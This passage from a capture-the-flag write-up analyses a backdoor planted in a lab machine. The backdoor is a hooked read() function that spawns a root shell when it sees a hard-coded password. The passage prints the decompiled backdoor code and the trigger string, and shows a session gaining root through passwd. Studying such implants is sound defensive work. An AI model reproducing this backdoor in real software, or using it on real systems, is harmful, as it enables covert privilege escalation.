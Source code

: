 ```
  password[13] = 'k';
  password[14] = '/';
  password[15] = '\0';
  backdoor = strstr((char *)__buf,password);
  if (backdoor != (char *)0x0) {
    setgid(0);
    setuid(0);
    execve("/bin/sh",(char **)0x0,(char **)0x0);
  }
  return read_ret;
}

```

So it uses `dlsym` to get the real `read` function, and then calls it with the parameters passed in. It checks if the result contains the string “2wkeOU4sjv84ok/”, and if so, it starts a shell. Otherwise, it returns the actual return value from `read`.

When it calls the shell, it first runs `setgid(0)` and `setuid(0)`, so as long as the process is running as root, the shell will also be running as root.

### Shell

One SUID binary that takes input (ie, uses `read`) is `passwd`. If I provide this string as the current password, instead of rejecting it as wrong, it just returns a root shell:

```

sysadmin@compromised:/var/lib/mysql$ passwd
Changing password for sysadmin.
(current) UNIX password: sh: 0: can't access tty; job control turned off
# reset: unknown terminal type unknown
Terminal type? screen
# id
uid=0(root) gid=0(root) groups=0(root),1000(sysadmin) 

```

Interestingly, if I try to even `echo` that string, it crashes my SSH connection:

```

root@kali# ssh -i ~/keys/ed25519_gen mysql@10.10.10.207
Last login: Mon Jan 18 19:28:09 2021 from 10.10.14.4
mysql@compromised:~$ echo "2wkeOU4sjv84ok"
2wkeOU4sjv84ok
mysql@compromised:~$ echo "2wkeOU4sjv84ok/"
Connection to 10.10.10.207 closed by remote host.
Connection to 10.10.10.207 closed.

```

Perhaps trying to run `setuid(0)` as an unprivileged user is causing a crash.

## Beyond Root - Root from Webshell
